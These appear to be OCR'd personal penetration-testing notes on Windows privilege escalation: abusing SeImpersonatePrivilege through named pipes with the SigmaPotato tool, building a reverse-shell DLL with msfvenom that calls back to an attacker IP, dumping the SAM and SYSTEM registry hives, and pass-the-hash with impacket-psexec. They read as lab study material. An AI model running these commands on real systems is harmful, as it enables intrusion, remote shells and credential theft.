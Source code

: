 systeminfo
grab OS version

Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
grab patch version

we can look through Microsoft Security Response Center to locate vulnerabilities


Non-privileged users with assigned privileges such as SelmpersonatePrivilege
which we can use to levelage a token with another security context

pentests:
rare for std::user to have Selmpersonate, but when Internet Information Service is compromised it often has it

IIS runs as LocalService, LocalSystem, NetworkService, ApplicationPoolIdentity

Named pipes are method for local or remote Inter-Process Communication
functionality of two unrealated processes sharing data

named pipe server -> create named pipe to which a named pip client can cnoonect via name

once client connect to named pipe, server can leverage the mentioned privilege to impresonate client after capturing the auth from the connection

to abuse, we find a privileged process and coerce it into connecting to a controlled named pipe

we use

SigmaPotato
uses a variation of potato privilege escalation to coerce NT AUTHORITY|SYSTEM to connect to controlled named pipe

we can use this when we have code exe as user with SelmpersonatePrivilege

wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
this is to download the tool

after transfering the tool
.\SigmaPotato "<command>"

there are other variants of the potato family for us to use

sc qc <servicename> 
to find out who is running the service

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.164 LPORT=2222 -f dll -o EnterpriseServiceOptional.dll
proper windows nc reverse shell

note that if backup privilege is allowed:
reg save HKLM\SAM C:\Users\Public\sam.save
reg save HKLM\SYSTEM C:\Users\Public\system.save

dump and decrypt

impacket-secretsdump -sam sam.save -system system.save LOCAL

like so, and using the hash obtained:

impacket-psexec -hashes :<backhash> administrator@192.168.207.222

this is only smb
